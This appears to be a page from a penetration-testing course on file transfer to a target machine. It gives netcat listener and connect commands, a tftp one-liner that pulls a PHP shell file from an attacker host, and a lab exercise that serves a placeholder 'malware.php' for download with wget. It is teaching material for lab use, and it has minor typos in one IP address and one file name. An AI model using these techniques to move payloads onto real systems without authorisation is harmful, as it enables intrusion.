 
## Netcat
Another easy way to transfer files is by using netcat.

Netcat is a command line tool for writing and reading data in the network. For data transfer, Netcat uses the TCP/IP and UDP network protocols. Originally, this tool comes from the Unix universe but today it is available on all platforms

Because of its versatility, Netcat is often referred to as the "Swiss Army knife of TCP/IP". For example, it can be used to diagnose errors and problems that jeopardize the functionality and security of a network. Netcat's range of features also includes port scanning, data streaming or simple data transfers. In addition, it can be used to set up chat and web servers as well as to initiate email requests. This simple software was developed in the mid-1990s and can operate in both server and client mode.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because that will kill your session.

So instead you can connect from the target machine like this.

On kali machine:
````
nc -lvp 4444 < file
````

On student machine:
````
nc 10.12.0.xx 4444 > file
````


## Tftp
On some rare machine we do not have access to nc and wget, or curl. But we might have access to tftp. Some versions of tftp are run interactively, like this:
````
$ tftp 192.168.0.101
tftp> get myfile.txt
````

If we can't run it interactively, for whatever reason, we can do this trick:

````
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
````


## Exercises 
> Connect to the virtual machine 10.xx.1.xx with the following credentials:  
> * ip : 10.12.0.xx  
> * user : Name  
> * password : name  


1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, create a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
2. On your student machine, download the malware.txt file with the wget command.
    > Your command : wget http://192.168.149.29:5000/malware.php
